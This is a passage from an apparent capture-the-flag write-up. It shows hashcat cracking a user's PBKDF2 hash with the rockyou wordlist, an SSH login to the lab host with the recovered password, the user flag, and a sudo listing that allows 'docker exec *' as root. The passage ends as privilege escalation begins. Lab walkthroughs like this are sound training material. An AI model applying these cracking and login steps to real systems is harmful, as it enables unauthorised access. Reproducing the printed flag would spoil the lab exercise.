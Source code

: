 ```

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Fri Jan 26 20:37:48 2024
Stopped: Fri Jan 26 20:37:48 2024


┌──(kali㉿kali)-[~]
└─$ hashcat -m 10900 hashed_passwords.txt /usr/share/wordlists/rockyou.txt --show
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

Since we cracked the password of the boris user we can try to SSH.
```
┌──(kali㉿kali)-[~]
└─$ ssh boris@10.10.88.246
boris@10.10.88.246's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>

  System information as of Fri Jan 26 19:39:08 UTC 2024

  System load:  0.0               Processes:              100
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 26%               IP address for eth0:    10.10.88.246
  Swap usage:   0%                IP address for docker0: 172.17.0.1

0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Jan 26 19:39:05 2024 from 10.8.1.49
boris@ip-10-10-10-11:~$ id
uid=1001(boris) gid=1001(boris) groups=1001(boris)
```

User flag: `VL{fbc4248a6ec4f7936b92ec76ad0cb654}`
```
boris@ip-10-10-10-11:~$ cat user.txt 
VL{fbc4248a6ec4f7936b92ec76ad0cb654}
```


## Privilege Escalation
Sudo -l output.
```
boris@ip-10-10-10-11:~$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```
